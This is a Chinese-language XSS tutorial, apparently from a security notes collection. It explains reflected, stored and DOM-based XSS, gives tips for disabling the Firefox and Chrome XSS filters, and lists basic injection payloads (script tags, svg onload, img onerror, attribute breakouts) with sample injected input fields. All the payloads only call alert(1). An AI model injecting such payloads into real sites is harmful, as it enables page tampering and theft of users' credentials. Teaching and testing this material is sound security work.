 **Tips**
- **Firefox 关闭 xss 过滤器**

    about:config 把 rowser.urlbar.filter.javascript 改为 false

- **chrome 关闭 xss 过滤器**

    带参数启动 --args --disable-xss-auditor

---

## 基础

### 什么是 XSS

跨站点脚本 (XSS) 攻击是一种注入，Web 程序代码中对用户提交的参数未做过滤或过滤不严，导致参数中的特殊字符破坏了 HTML 页面的原有逻辑，攻击者可以利用该漏洞执行恶意 HTML/JS 代码、构造蠕虫、篡改页面实施钓鱼攻击、以及诱导用户再次登录，然后获取其登录凭证等。

XSS 攻击有 3 种类型：

- 反射型 XSS : 通过网络浏览器从另一个网站运行恶意脚本的攻击
- 存储型 XSS : 存储型是将注入的脚本永久存储在目标服务器上的攻击
- 基于DOM的XSS : 一种在 DOM 结构中而不是在 HTML 代码中触发的 XSS。

### XSS Payload

#### 最基础的

```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

#### 在标签内部的

```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)

"><script>alert(1)</script>
'><script>alert(1)</script>

</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>

</script><script>alert(1)</script>
```

示例1
```html
<input id="keyword" type="text" name="q" value="example">
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

示例2
```html
<input id="keyword" type="text" name="q" value="example">
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```
